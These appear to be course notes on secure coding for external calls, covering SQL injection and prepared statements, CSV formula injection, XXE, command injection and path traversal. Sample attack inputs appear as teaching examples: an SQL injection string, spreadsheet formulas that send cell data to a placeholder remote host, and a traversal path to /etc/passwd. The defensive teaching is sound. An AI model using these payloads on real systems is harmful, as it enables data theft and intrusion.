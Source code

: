 ## Dependency
No program is truly self-contained.  
Dependency can be not so obvious such like dynamic libraries, kernel modules, run-time libraries, and so on.  
What components you trust?  
**What** data do you send to the component? Have you read the documentation about what is allowed or supported?  
**How** do you send the data to component? with encrypted channel?  
What kind of output do you accept from component?  
Your implementation of library would cause to danger! e.g. use `JSON.parse()` instead of `eval()`.  
If you can't be sure secure or not, just re-implement.  
Make sure any call-out only pass valid and expected values for every parameter.  
However, it is difficult because library always calls in potentially surprising ways.  

## Metachracters
Metacharacters are the chars which are not interpreted as data in input.  
Different language would have different meanings for metacharacters, such as `'` in SQL and `$` in POSIX shell.  
Make sure your program to make them escaped when someone tries to input metacharacters.  
e.g. first, how sql connection looks like in java  
```java
String url = "jdbc:mysql://localhost:3306/mydb";
Class.forName("com.mysql.jdbc.Driver").newInstance();
Connection connection = DriverManager.gerConnection(url, "root", "root");
Statement statement = connection.createStatement();
ResultSet result = null;
```
This is the poor code because **password is hard-coded**, and **easy to guess**.  
e.g. SQL injection  
```java
String query = "select * from authors where name = '" + search_name + "'";
result = statement.executeQuery(query);
while(result.next()){ System.out.println(result.getString(1));  // get the result on column1 from result set }
...
statement.close();
connection.close();
```
string concatenation with untrusted input would cause to SQL injection!  
Here, single quote (`'`) is the **metacharacter**!  

## SQL injection
**Blacklist is also impossible** because there are massive variation in SQL interpreters.  
Solution? **Prepare Statement**  
e.g. The example of Prepare Statement  
```java
String query = "select * from authors where name = ?";
PreparedStatement stmt = connection.prepareStatement(query);
stmt.setString(1, search_name);    // set the first parameter as search_name (our input)
ResultSet result = stmt.execute();
```
👍 **Why prepared statement can prevent from sql injection?**  
Take the sample above for example, if we don't use prepare statement with my input: `1pwnch' or 1=1#`  
```sql
select * from authors where name = '1pwnch' or 1=1#'
```
SQL would compile and execute the query above and make it return the whole table of authors.  
However, if I use prepare statement, `select * from authors where name = ?` would be compiled first.  
After I `setString`, my `search_name` would be passed as a parameter value, and won't be compiled again!!  
Therefore, SQL would try to find the author's name which is `1pwnch' or 1=1#`.  
Of course, there is not such name in usual case, and cause to the failure of sql injection.  
> Compile includes semantic analysis which could determine the meaning of query. Therefore, if you want to make your sql injection success, you must make your input compiled!!  

**However, prepare statement can also be misused**  
```java
String query = "select * from authors where name = '" + search_name + "'";
PreparedStatement stmt = connection.prepareStatement(query);
ResultSet result = stmt.execute();
```  
This is a really **bad use of prepare statement**.  
> Remember! Prepared statement only works if untrusted inputs are all prepared!!


## CSV injection
When excel open csv file, file would be converted to format of excel. Excel provides some convenient dynamic functions, and makes the `formula` in csv run!  
e.g. payload  
```csv
=CONCATENATE(A2:E2)
=IMPORTXML(CONCAT("http://[remote IP:Port]/123.txt?v=", CONCATENATE(A2:E2)), "//a/a10")
=IMPORTHTML (CONCAT("http://[remote IP:Port]/123.txt?v=", CONCATENATE(A2:E2)),"table",1)
```
The all formulas above begining with `=` would be executed.

## XXE
Metachars in XML: `<>`, `[]`, `%`, `&`.  
Solution: check the external reference with whitelist?  
Solution: Don't use XML?  

## Command injection
Metachars in command shell: `&`, `;`, `\`, `<>`, `\r`, `\n`, `{}`, `[]`, `()`, `^`, `~`, `|`...  
```java
Runtime.getRuntime.exec(cmd);
```
cmd from the untrusted user input.

## Disaster about pathname
If attacker can control pathname...  
`../../../etc/passwd` to leak the secret of system.  
Solution: Use whitelist to block the char likes `.`, `/`, and even `\`.  
Window pathname:  
* Built-in reserved device name  
* drives can even create more reserved names  
* Directory separator includes `/` and `\`  

Unix-like pathname:  
* Directory separator `/`, terminated with `\0`  
* Case sensitive  
* Some problematic filename include Space, Control char(tab, newline, escape), non-UTF8, `-`(option mark)...  

## Reference
[Course material: Secure-Software-5-Call-Out](https://dwheeler.com/secure-class/presentations/Secure-Software-5-Call-Out.ppt)
